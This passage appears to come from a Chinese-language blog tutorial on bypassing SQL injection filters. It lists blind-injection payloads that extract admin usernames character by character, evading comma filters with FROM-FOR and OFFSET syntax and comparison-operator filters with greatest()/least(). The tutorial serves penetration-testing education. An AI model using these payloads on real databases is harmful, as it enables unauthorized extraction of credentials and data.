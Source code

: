 

```
// substr() 逗号绕过      
select * from test where id=1 and (select ascii(substr(username,2,1)) from admin limit 1)>97;      
select * from test where id=1 and (select ascii(substr(username from 2 for 1))from admin limit 1)>97;       
// substring() 逗号绕过      
select * from test where id=1 and (select ascii(substring(username,2,1)) from admin limit 1)>97;      
select * from test where id=1 and (select ascii(substring(username from 2 for 1))from admin limit 1)>97;       
// mid() 逗号绕过      1
select * from test where id=1 and (select ascii(mid(username,2,1)) from admin limit 1)>97;      1
select * from test where id=1 and (select ascii(mid(username from 2 for 1))from admin limit 1)>97;       1
// limit 逗号绕过      1
select * from test where id=1 limit 1,2;       1
select * from test where id=1 limit 2 offset 1;
```




![](https://img-blog.csdnimg.cn/20200229202006455.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70) ![](https://img-blog.csdnimg.cn/20200229202037131.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)![](https://img-blog.csdnimg.cn/20200229202113131.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200229202227578.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**过滤了比较符<  >**

--------------



    在使用盲注的时候，会用到二分法来比较操作符来进行操作。如果过滤了比较操作符，那么就需要使用到 greatest()和lease（）来进行绕过。greatest()返回最大值，least()返回最小值。



greatest(n1,n2,n3.....)返回输入参数的最大值；



least(n1,n2,n3....)返回输入参数的最小值



```
select * from users where id=1 and ascii(substring(database(),0,1))>64;      
select * from users where id=1 and greatest(ascii(substring(database(),0,1)),64)>64;       
select * from users where id=1 and ascii(substring(database(),0,1))<64;      
select * from users where id=1 and least(ascii(substring(database(),0,1)),64)<64;
```




![](https://img-blog.csdnimg.cn/20200229203455779.png)

